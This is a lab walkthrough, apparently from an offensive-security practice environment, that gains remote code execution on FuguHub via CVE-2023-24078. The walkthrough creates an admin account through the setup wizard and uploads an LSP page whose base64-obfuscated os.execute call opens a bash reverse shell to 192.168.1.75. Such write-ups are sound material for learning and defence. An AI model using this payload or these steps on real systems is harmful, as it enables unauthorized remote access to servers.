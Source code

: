 _____
# Enumeration

## Nmap

Initial step. Starting with an Nmap scan. We have 2 open ports "**8082**" and "**9999**".

```
nmap -Pn --open 172.17.7.2
```

![](https://portal.offsec.com/labs/images/nmap.png)

Open the address. (Docker bind address to localhost)

```bash
http://127.0.0.1:8082
```

![](https://portal.offsec.com/labs/images/land.png)

# FuguHub

[FuguHub](https://fuguhub.com//)

> transforms your computer (or device) into a powerful and secure online storage system, letting you access and share files from any connected computer or device in the world.

---

# Exploitation

## Remote Code Execution

We find "**[CVE-2023-24078](https://www.cvedetails.com/cve/CVE-2023-24078/ "CVE-2023-24078 security vulnerability details")**" recorded for ****Real Time Logic FuguHub**.

![](https://portal.offsec.com/labs/images/cve.png)

---

## POC

The actual poc can be found here ->[Fuguhub-8.1-RCE/Fuguhub-8-1-RCE-Report.pdf at main · ojan2021/Fuguhub-8.1-RCE · GitHub](https://github.com/ojan2021/Fuguhub-8.1-RCE/blob/main/Fuguhub-8-1-RCE-Report.pdf)

Steps:

1. Go to the link: http://127.0.0.1:8082/Config-Wizard/wizard/SetAdmin.lsp
    
2. For the poc I am using "test@test.com" for all the fields.
    
    Uncheck "**Enable password recovery (by E-mail):**"
    
    
3. Now go the link: http://127.0.0.1:8082/rtl/protected/wfslinks.lsp or click on "**Web-File-Server**" nav menu.
    
4. Once will fill the creds, we will get logged in.
    
5. Click on "**fs**" or go the link: http://127.0.0.1:8082/fs/
    
6. Create a file named as **"rev.lsp"** and put the below content into the file
    
    ```lisp
    <div style="margin-left:auto;margin-right: auto;width: 350px;">
    
    <div id="info">
    <h2>Lua Server Pages Reverse Shell</h2>
    <p>Delightful, isn't it?</p>
    </div>
    
    <?lsp if request:method() == "GET" then ?>
       <?lsp os.execute("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjc1LzEyMzQgMD4mMQo= | base64 -d | bash") ?>
    <?lsp else ?>
       You sent a <?lsp=request:method()?> request
    <?lsp end ?>
    
    </div>
    ```
    
7. Listen netcat on your local machine
    
8. Now upload that **rev.lsp** file
    
9. Now go back, you will find the file listed there.
    
    `<img title="" src="images/listed.png" alt="" data-align="center">`

10. Finally go the link: http://127.0.0.1:8082/rev.lsp
    
11. The payload will get executed.

